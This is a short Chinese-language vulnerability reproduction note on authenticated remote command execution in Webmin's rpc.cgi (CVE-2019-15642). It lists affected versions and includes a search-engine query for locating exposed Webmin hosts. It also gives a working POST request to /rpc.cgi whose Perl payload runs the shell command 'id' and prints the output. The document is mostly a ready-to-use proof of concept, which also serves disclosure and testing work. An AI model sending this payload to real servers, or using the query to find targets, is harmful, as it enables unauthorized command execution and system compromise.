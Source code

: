 # 

# Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

## 漏洞描述

Webmin是一套基于Web的用于类Unix操作系统中的系统管理工具。 Webmin 1.920及之前版本中的rpc.cgi文件存在安全漏洞。攻击者可借助特制的对象名称利用该漏洞执行代码。

## 漏洞影响

```
Webmin < 1.920
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](./images/202208291021846.png)

登录后发送请求包

```
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

![image-20220829102134685](./images/202208291021740.png)

